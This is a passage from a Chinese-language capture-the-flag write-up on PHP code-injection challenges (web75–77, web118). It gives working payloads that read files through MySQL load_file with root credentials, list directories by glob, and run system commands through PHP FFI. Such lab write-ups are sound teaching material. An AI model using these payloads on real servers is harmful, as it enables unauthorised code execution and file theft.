 换一个方法

payload

```
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

利用的mysql的load_file进行读取文件

![image-20240429092448207](image/image-20240429092448207.png)

---

#### web76

和上一题的payload一样

---

#### web77

先扫描目录

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

![image-20240429093032031](image/image-20240429093032031.png)

接下来读取flag

发现一个flag36x.txt和readflag，题目提示了php7.4，搜了一下是利用[FF1拓展](https://www.laruence.com/2020/03/11/5475.html)(php7.4开始才有)，payload如下

```
c=?><?php $ffi = FFI::cdef("int system(const char *command);");$ffi->system("/readflag >1.txt");exit();
```

然后访问1.txt

![image-20240429093513396](image/image-20240429093513396.png)

---

### 类型五

运用环境变量构建命令

#### web118

![image-20240429094026930](image/image-20240429094026930.png)

经过测试后发现只能注入大写字母和${}:?.~等等字符可以通过，可以使用bash内置变量进行利用
